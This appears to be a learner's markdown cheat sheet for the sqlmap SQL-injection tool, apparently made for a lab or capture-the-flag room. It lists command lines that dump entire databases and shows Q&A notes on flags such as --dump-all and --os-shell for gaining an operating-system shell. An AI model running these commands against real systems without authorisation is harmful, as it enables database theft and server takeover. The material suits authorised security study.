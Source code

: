 # sqlmap
*sqlmap* is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections. [More](https://github.com/sqlmapproject/sqlmap)
```
sqlmap -r request.txt --dbms=mysql --dump sqlmap -r request.txt -p username

sqlmap -u http://domain.name --form

sqlmap --dbms=SQLite -r Burp --tamper=cspace2comment --level=3 -- dump-all
```
```
-r uses the intercepted request you saved earlier What flag sets which database is in the target host's backend?  
Ex: If the flag is set to mysql then sqlmap will only test mysql injections).

--dbms tells SQLMap what type of database management system it is How do you dump the table entries of the database?
--dump attempts to outputs the entire database
How do you select(lol) which parameter to use?(Example: in the url http://ex.com?test=1 the parameter would be test.)
-p use the pramater
how do you select the level of depth sqlmap should use(higher = more accurate and more tests in general).
--level
How do you ask sqlmap to try to get an interactive os-shell?
--os-shell
What flag dumps all data from every table
--dump-all
#location of dump csv /home/pthsovann/.local/share/sqlmap/output/10.10.64.78/‐ dump/
```
